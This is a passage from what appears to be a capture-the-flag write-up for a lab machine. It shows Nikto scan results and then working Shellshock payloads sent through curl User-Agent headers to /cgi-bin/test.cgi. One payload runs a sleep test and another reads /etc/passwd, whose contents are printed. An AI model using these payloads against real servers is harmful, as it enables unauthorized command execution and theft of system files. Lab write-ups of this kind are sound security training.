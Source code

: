 ```terminal
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ Uncommon header 'nikto-added-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
```

## **<span style='color:#ff5555'>Foothold</span>**
***

The site appears to be vulnerable to the ‘Shellshock’ vulnerability. Attackers may be exploited Shellshock within hours of the initial disclosure by creating botnets of compromised computers to perform distributed denial-of-service attacks and vulnerability scanning. By trying curl the website, it shows the error that vulnerable to `shellshock`.

```terminal
➜  0day curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep3"' http://10.10.241.3/cgi-bin/test.cgi
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 10.10.241.3 Port 80</address>
</body></html>
➜  0day
```

Now let's try to cat the passwd file

```terminal
➜  0day curl -A "() { ignored; }; echo Content-Type:text/plain;echo;echo;/bin/cat /etc/passwd" http://10.10.241.3/cgi-bin/test.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
```